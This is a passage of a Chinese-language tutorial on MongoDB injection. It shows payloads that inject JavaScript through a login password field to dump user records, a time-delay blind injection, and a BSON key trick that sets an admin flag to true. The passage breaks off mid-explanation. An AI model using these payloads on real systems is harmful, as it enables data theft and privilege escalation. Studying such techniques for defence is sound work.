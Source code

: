 带入实际中$q 是变为：

```
$q = "function() { var loginn = user; var passs = '1'; var loginn = db.version(); var b=''; db.members.insert({id : 2, login : loginn, pass : passs}); }"

```

获取其他数据的方法：

```
 /?login=user&password= '; var loginn = tojson(db.members.find()[0]); var b='2 
```

给 loginn 重新赋值，覆盖原来的 user 内容，tojson 函数帮助获取到完整的数据信息，否则的话将会接收到一个 Array。

最重要的部分是 db.memeber.find()[0]，member 是一个表，find 函数是获取到所有内容，[0]表示获取第一个数组内，可以递增获取所有的内容。

当然也有可能遇到没有返回结果的时候，经典的时间延迟注入也可以使用：

```
?login=user&password='; if (db.version() > "2") { sleep(10000); exit; } var loginn =1; var b='2 
```

### 4)BSON

BSON（Binary Serialized Document Format）是一种类 json 的一种二进制形式的存储格式，简称 Binary JSON，它和 JSON 一样，支持内嵌的文档对象和数组对象，但是 BSON 有 JSON 没有的一些数据类型，如 Date 和 BinData 类型。

默认 test 表中有两条数据：

```
> db.test.find({}) 
{ "_id" : ObjectId("52cfa5c9e085a58263f183f9"), "name" : "admin", "isadmin" : true }
{ "_id" : ObjectId("52cfa5e4e085a58263f183fa"), "name" : "noadmin", "isadmin" : false } 
```

再插入一条：

```
> db.test.insert({ "name" : "noadmin2", "isadmin" : false}) 
```

然后查询看结果：

```
> db.test.find({})
{ "_id" : ObjectId("52cfa5c9e085a58263f183f9"), "name" : "admin", "isadmin" : true }
{ "_id" : ObjectId("52cfa5e4e085a58263f183fa"), "name" : "noadmin", "isadmin" : false }
{ "_id" : ObjectId("52cfa92ce085a58263f183fb"), "name" : "noadmin2", "isadmin" : false } 
```

再插入一条列名为 BSON 对象的数据：

```
db.test.insert({ "name\x16\x00\x08isadmin\x00\x01\x00\x00\x00\x00\x00" : "noadmin2", "isadmin" : false}) 
```

isadmin 之前的 0x08 是指该数据类型是布尔型，后面的 0x01 是把这个值设定为 1。

这时再查询就回发现 isadmin 变为的 true：

